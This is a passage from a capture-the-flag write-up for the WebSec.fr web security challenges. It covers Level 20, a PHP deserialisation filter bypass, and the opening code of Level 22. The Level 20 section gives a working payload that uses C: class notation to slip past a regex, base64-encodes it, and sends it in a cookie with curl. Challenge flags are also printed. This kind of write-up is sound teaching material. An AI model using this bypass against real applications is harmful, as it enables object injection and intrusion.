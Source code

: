 `WEBSEC{You_have_impressive_refrences._We'll_call_you_back.}`

## Level 20
Deserialisation exploit here with some sanitisation:

```php
 if ( ! preg_match ('/[A-Z]:/', $data)) {
        return unserialize ($data);
    }

    if ( ! preg_match ('/(^|;|{|})O:[0-9+]+:"/', $data )) {
        return unserialize ($data);
    }

```

The base64-decoded `$data` is passed to this function. 
First checks for whether the decoded data contains any capital letters, which is basically useless for me because I have to have capital letters regardless.

Moving onto the second. It checks for all forms of special characters, then it checks for the usual `O:` that all PHP serialised objects start with. 

The website uses a magic method with `__destruct()` to specify the `$flag` variable in the `Flag` class. So all I have to do is somehow invoke the `Flag` class via deserialisation.

{% embed url="https://www.php.net/manual/en/class.serializable.php" %}

The documentation reveals that while the Object (O) notation is blocked by regex, there is a 'Class' notation using C:. The class object can only be used to unserialise instances that implement serializable! 

```
$ echo 'C:4:"Flag":4:{s:0:}' | base64         
Qzo0OiJGbGFnIjo0OntzOjA6fQo=
$ curl 'https://websec.fr/level20/index.php' -H 'Cookie: data=Qzo0OiJGbGFnIjo0OntzOjA6fQo='
```

`WEBSEC{CVE-2012-5692_was_a_lof_of_phun_thanks_to_i0n1c_but_this_was_not_the_only_bypass}`

## Level 22

PHP `unset` resets a variable. Seems that all `system` functions cannot be used here.

```php

class A {
    public $pub;
    protected $pro ;
    private $pri;

    function __construct($pub, $pro, $pri) {
        $this->pub = $pub;
        $this->pro = $pro;
        $this->pri = $pri;
    }
}

include 'file_containing_the_flag_parts.php';
$a = new A($f1, $f2, $f3);

$funcs_internal = get_defined_functions()['internal'];

unset ($funcs_internal[array_search('strlen', $funcs_internal)]);
unset ($funcs_internal[array_search('print', $funcs_internal)]);
unset ($funcs_internal[array_search('strcmp', $funcs_internal)]);
unset ($funcs_internal[array_search('strncmp', $funcs_internal)]);

```